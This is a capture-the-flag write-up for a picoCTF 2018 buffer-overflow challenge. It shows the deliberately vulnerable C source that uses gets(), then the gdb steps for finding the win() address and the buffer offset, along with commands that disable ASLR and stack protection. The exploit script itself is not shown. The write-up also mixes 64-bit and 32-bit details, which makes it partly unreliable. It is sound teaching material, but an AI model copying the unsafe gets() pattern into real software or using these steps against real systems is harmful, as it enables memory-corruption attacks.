





#  picoCTF 2018 - BufferOverflow 1

Binary Exploitation is a broad topic within Cyber Security that comes down to finding a vulnerability in a program and exploiting it to gain control of a shell or modify the program’s functions.

My approach to solving buffer overflow binary exploitation problems is to follow a three-step approach. Understand the code, understand the output, and finally manipulate the output. First, it is very important to pay attention to the source code. The main idea of secure programming is to pay attention to how you code. One mistake by a programmer can cause unforeseen damage. So, before we run the code in a sandboxed environment, we will inspect the code visually.

## Source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```

---

## Analysis
This program is using a vulnerable C function, gets(). gets() is a vulnerable function in the C library which does not do bounds checking. gets() was also removed from the C11 standard. The late gets function was considered to be dangerous because no matter how large the buffer is, an attacker can just make the input string longer than the buffer, forcing a buffer overflow.

We can use it to perform a buffer overflow exploitation. The win() is responsible for displaying the flag but it is not called in the main function. So, we will fill the buffer and pass the address of the win() function, inside the RIP register.

---

## Trying to control the RIP register using the insecure gets() function

**Step 1:** Disable ASLR
```
sudo sysctl kernel.randomize_va_space=0
```

**Step 2:** Compile the program
```
gcc -m64 -g -z execstack -fno-stack-protector -no-pie vuln.c -o vuln
```

**Step 3:** Run the program through gdb
```
gdb ./vuln
```

**Step 4:** Configure gdb and run
Set the disassembly syntax to intel
```
set disassembly-flavor intel
```
Set a breakpoint at main and run
```
b main
run
```

**Step 4:** Find the address of the win() function
```
info functions
```


We can see that the address of the win() function is at 0x080485cb

**Step 5:** Find the start of the buffer
Since the user input is taken from inside the vuln() function, we have to step in (use commmand: si) when we reach the function in the gdb




```
print $ebp-0x28
```

**Step 6:** Find the length of the buffer until we reach the start of the RIP
Go to the ret syscall



```
print (long) $esp - 0xffffd0a0
```

**Step 7:** Write the python code.



**Step 8:** Exploitation
Compile: 
```
python3 exploit.py
```

Execute:

The following command will use the contents of the exploit file as the command-line argument for the vulnerable program. 
```
(cat ./exploit; cat -) | ./vuln
```


